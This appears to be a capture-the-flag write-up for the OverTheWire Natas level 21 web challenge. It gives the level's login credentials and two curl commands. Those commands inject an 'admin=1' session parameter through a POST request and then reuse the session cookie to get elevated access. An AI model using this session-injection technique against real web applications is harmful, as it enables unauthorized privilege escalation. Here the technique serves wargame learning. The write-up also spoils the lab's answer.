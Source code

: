 # username
natas21
# password
BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
# web app vulnerability
Insecure Session Handling, Session Variable Injection
# method of solve
This web app allows session parameters to be set through the web app via a POST request. The code does not prevent additional parameters to be set at the same time legitimate parameters are. So we can set our `admin` session parameter to True to gain elevated access to the web app.
```
curl -X POST -u 'natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH' -v 'http://natas21-experimenter.natas.labs.overthewire.org/?debug=1' -b 'PHPSESSID=413e96uk941o14rn1jb52ak29m' -d 'align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update'
# This command sets ours admin parameter to 1, which is required to gain access to the password in the main web app page.
curl -u 'natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH' -v 'http://natas21.natas.labs.overthewire.org/' -b 'PHPSESSID=413e96uk941o14rn1jb52ak29m'
```
